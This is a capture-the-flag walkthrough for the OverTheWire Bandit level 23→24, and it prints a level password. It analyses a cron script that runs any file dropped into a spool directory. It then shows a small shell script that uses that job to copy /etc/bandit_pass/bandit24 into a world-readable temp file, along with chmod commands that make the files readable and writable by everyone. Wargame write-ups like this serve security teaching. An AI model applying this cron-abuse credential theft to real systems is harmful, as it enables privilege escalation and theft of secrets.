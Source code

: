 Level password: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

Same first step as the last 2 levels. But the bandit24 crontab script is different:

```sh
cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Let's break down each part of the code:

```sh
for i in * .*;
```

This loops over each file within the current directory.

```sh
if [ "$i" != "." -a "$i" != ".." ];
```

This checks for whether the current file is `.` or `..`, which are directories.

```sh
owner="$(stat --format "%U" ./$i)"
```

This gets the owner of the file to be executed name.

```sh
if [ "${owner}" = "bandit23" ]; then
	timeout -s 9 60 ./$i
fi
```

This checks whether the owner of the file is `bandit23`. If it is then it executes it. But it will timeout after 60 seconds.

```sh
rm -f ./$i
```

This force delete the current file being processed.

What we can extract from this script is that this crontab executes any files in the `/var/spool/current_username` and delete it. Specifically, for files that is owned by user *bandit23* (aka us), it would run the executable for 60 seconds then kill it. This means the script would run with the permissions of user *bandit24*. So we could create our own script and to read the password of bandit24 and write it into a file that we could access:

```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/temp_dir/password.txt
```

Before we could do anything, we need to modify the permission so that the crontab could access the directory that houses the password file, the password file itself, and the permission of the script itself:

```sh
chmod +rx script.sh
chmod a+rwx /tmp/temp_dir
chmod +rw password.txt
```

Then we copy the script to the `/var/spool/bandit24/foo/` directory and wait for it to execute:

```sh
cp script.sh /var/spool/bandit24/foo/
```